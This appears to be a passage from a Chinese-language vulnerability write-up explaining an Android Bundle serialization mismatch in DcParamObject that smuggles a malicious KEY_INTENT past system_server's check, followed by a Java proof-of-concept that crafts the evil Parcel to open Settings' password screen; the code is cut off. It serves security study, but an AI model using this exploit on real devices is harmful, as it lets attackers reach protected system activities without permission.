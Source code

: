 [![](https://xzfile.aliyuncs.com/media/upload/picture/20180530175404-6345dfda-63ef-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180530175404-6345dfda-63ef-1.png)

在 Autherticator App 中构造恶意 Bundle，携带三个键值对。第一个键值对携带一个 DcParamObject 对象；第二个键值对的键的 16 进制表示为 0x06，长度为 1，值的类型为 13 代表 ByteArray，然后将恶意 KEY_INTENT 的内容放在 ByteArray 中；接下来，再随便放置一个键值对。

那么在`system_server`发生的第一次反序列化中，生成 DcParamObject 对象，mSubId 通过 readInt 读入为 1。后面两个键值对都不是 KEY_INTENT，因此可以通过 checkIntent 检查。

然后，第二次序列化时`system_server`通过 writeLong 将 mSubId 写入 Bundle，多出四个字节为 0x0000 0000 0000 0001，后续内容不变。

最后，`Settings`反序列化读入 Bundle，由于读入 mSubID 仍然为 readInt，因此只读到 0x0000 0001 就认为读 DcParamObject 完毕。接下来开始读第二个键值对，把多出来的四个字节 0x0000 0000 连同紧接着的 1，认为是第二个键值对的键为 null，然后 6 作为类型参数被读入，认为是 long，于是后面把 13 和接下来 ByteArray length 的 8 字节作为第二个键值对的值。最终，恶意 KEY_INTENT 显现出来作为第三个键值对！

#### POC

```
Bundle evilBundle = new Bundle();
        Parcel bndlData = Parcel.obtain();
        Parcel pcelData = Parcel.obtain();

        // Manipulate the raw data of bundle Parcel
        // Now we replace this right Parcel data to evil Parcel data
        pcelData.writeInt(3); // number of elements in ArrayMap
        /*****************************************/
        // mismatched object
        pcelData.writeString("mismatch");
        pcelData.writeInt(4); // VAL_PACELABLE
        pcelData.writeString("com.android.internal.telephony.DcParamObject"); // name of Class Loader
        pcelData.writeInt(1);//mSubId

        pcelData.writeInt(1);
        pcelData.writeInt(6);
        pcelData.writeInt(13);
        //pcelData.writeInt(0x144); //length of KEY_INTENT:evilIntent
        pcelData.writeInt(-1); // dummy, will hold the length
        int keyIntentStartPos = pcelData.dataPosition();
        // Evil object hide in ByteArray
        pcelData.writeString(AccountManager.KEY_INTENT);
        pcelData.writeInt(4);
        pcelData.writeString("android.content.Intent");// name of Class Loader
        pcelData.writeString(Intent.ACTION_RUN); // Intent Action
        Uri.writeToParcel(pcelData, null); // Uri is null
        pcelData.writeString(null); // mType is null
        pcelData.writeInt(0x10000000); // Flags
        pcelData.writeString(null); // mPackage is null
        pcelData.writeString("com.android.settings");
        pcelData.writeString("com.android.settings.password.ChooseLockPassword");
        pcelData.writeInt(0); //mSourceBounds = null
        pcelData.writeInt(0); // mCategories = null
        pcelData.writeInt(0); // mSelector = null
        pcelData.writeInt(0); // mClipData = null
        pcelData.writeInt(-2); // mContentUserHint
        pcelData.writeBundle(null);

        int keyIntentEndPos = pcelData.dataPosition();
        int lengthOfKeyIntent = keyIntentEndPos - keyIntentStartPos;
        pcelData.setDataPosition(keyIntentStartPos - 4);  // backpatch length of KEY_INTENT
        pcelData.writeInt(lengthOfKeyIntent);
        pcelData.setDataPosition(keyIntentEndPos);
        Log.d(TAG, "Length of KEY_INTENT is " + Integer.toHexString(lengthOfKeyIntent));

        ///////////////////////////////////////
        pcelData.writeString("Padding-Key");
```